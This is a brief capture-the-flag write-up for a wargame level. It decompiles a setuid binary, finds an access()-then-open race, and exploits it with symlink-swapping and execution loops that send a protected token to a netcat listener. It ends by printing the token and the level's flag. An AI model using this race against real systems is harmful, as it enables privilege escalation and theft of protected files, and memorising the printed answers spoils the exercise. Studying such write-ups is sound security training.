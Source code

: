 # level10

`ls`
![[ls.png]]

![[level10.png]]

In another terminal, `nc -l 6969` to receive a file
`./level10 token localhost`
![[Token error.png]]

With another test we can see that it works with a file we have rights over.

After decompiling with ghidra, we get:
```c
  pcVar6 = (char *)param_2[1];
  iVar2 = access((char *)param_2[1],4);
  if (iVar2 == 0) {
	  ...
  } else {
    printf("You don\'t have access to %s\n",pcVar6);
  }
```

Let's create a race condition so that access sees the correct rights:
`while true; do ln -sf ~/level10 /tmp/pwned; ln -sf ~/token /tmp/pwned; done &`
`while true; do ./level10 /tmp/pwned 10.0.2.15; done &`

![[Binary.png]]
In the middle of the binary, there is the token: `woupa2yuojeeaaed06riuj63c`

`su flag10`
`getflag`
![[getflag10.png]]

### Flag = feulo4b72j7edeahuete3no7c